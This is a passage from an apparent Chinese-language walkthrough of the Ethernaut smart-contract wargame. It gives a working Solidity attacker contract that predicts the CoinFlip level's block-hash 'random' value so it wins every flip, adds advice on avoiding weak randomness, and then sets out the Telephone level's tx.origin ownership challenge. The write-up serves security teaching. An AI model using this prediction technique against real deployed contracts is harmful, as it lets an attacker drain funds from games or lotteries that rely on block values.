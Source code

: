 **考点**： 合约中随机数的使用

本例使用last block hash作为随机数，而通过合约调用此合约可以很容易的获得该值

**解题步骤**：
 
自定义合约，获取last block number， 根据CoinFlip合约中的算法计算得到side，调用flip方法即可

**解题代码**：
```
pragma solidity ^0.4.18;

import './SafeMath.sol';

contract CoinFlipCaller{
    using SafeMath for uint256;
    CoinFlip cf;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function CoinFlipCaller(address cfAddr) public{
        cf = CoinFlip(cfAddr);
    }
    
    function call() public returns(bool) {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        // return side;
        cf.flip.gas(100000)(side);
    }
}
```
连续调用10次call函数即可

**如何避免**： 不要使用时间，last blockhash 等与区块相关的值做随机数，时间可以被矿工操控，last blockhash是确定的，即使未来的区块值都是可以操控的；请使用真随机数服务避免此问题

### 4. Telephone

**题目源码**：
```
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
**题目要求**：获取owner权限
